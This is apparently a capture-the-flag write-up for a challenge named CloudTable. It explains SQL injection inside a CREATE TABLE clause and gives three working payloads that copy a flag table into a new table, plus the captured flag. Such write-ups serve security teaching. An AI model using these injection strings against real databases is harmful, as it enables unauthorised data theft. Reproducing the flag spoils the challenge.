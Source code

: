 # CloudTable

## Description

CloudTable

Shou made a free MySQL table creator. Try it out and hack it!  Note: Flag is in flag table of cloudtable database.

## Solution

This challenge features SQL injection in a CREATE TABLE clause. I have to admit I spent way longer than I should have on it because I forgot to add the database prefix to the statement. Also, I was mostly trying the table name "flags" until the note was added to the challenge description.

The original statement is:

```sql
CREATE TABLE `cloudtable`.`{new table name}`(`{USER INPUT}` TYPE);
```

My approach was just to use one of the techniques to clone tables with additional fields. Here are a few working attacks that copy the flag table into the new table:

> hi\` TEXT) AS SELECT * FROM cloudtable.flag;#
> hi\` TEXT) TABLE cloudtable.flag;#
> hi\` TEXT) SELECT * FROM cloudtable.flag;#

Flag: `we{1cf8b0f2-7659-4277-b1be-8b50b1d1e046@Sq1_Injection_By_Cr3ate}`

I also tried to use check constraints but could not get the server to accept them :(

